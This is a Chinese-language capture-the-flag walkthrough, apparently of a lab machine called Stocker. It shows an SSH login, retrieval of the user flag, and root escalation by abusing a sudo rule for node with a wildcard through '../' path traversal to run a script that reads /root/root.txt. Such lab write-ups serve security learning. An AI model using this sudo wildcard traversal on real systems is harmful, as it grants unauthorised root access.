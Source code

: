 要不是论坛里也直接说了这是用户angoose的密码，我还以为是dev的呢……不过passwd里倒是也没有dev用户，也只有angoose最值得一试了……


## flag: user

SSH连接后，获得用户flag：

```
└─$ ssh angoose@10.10.11.196
……
Last login: Sat May 27 18:56:20 2023 from 10.10.14.8
angoose@stocker:~$ id
uid=1001(angoose) gid=1001(angoose) groups=1001(angoose)
angoose@stocker:~$ ls
exploit.js  user.txt
angoose@stocker:~$ cat user.txt 
e014……850c
```


## Privilege Escalation

知道当前用户的密码，所以先看看 `sudo -l`：
```bash
angoose@stocker:~$ sudo -l
[sudo] password for angoose: 
Matching Defaults entries for angoose on stocker:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User angoose may run the following commands on stocker:
    (ALL) /usr/bin/node /usr/local/scripts/*.js
```

可以执行.js脚本，虽然看上去指定了目录，不过由于通配符，我们可以自由控制目录移动。

唔……不太会js的脚本。  
不过实际上，刚登入SSH看当前目录的文件时就发现一个 `exploit.js`：
```bash
angoose@stocker:~$ cat exploit.js 
const fs = require('fs');
fs.readFile('/root/root.txt', 'utf8', (err, data) => {
 if (err) throw err;
 console.log(data);
});
```

应该是之前的玩家留下的，用了用了！


## flag: root

```bash
angoose@stocker:~$ sudo /usr/bin/node /usr/local/scripts/../../../home/angoose/exploit.js 
[sudo] password for angoose: 
a6c0……e3b1
```

---

## 总结·后记

2023/05/28

……

完全是js系列的靶机
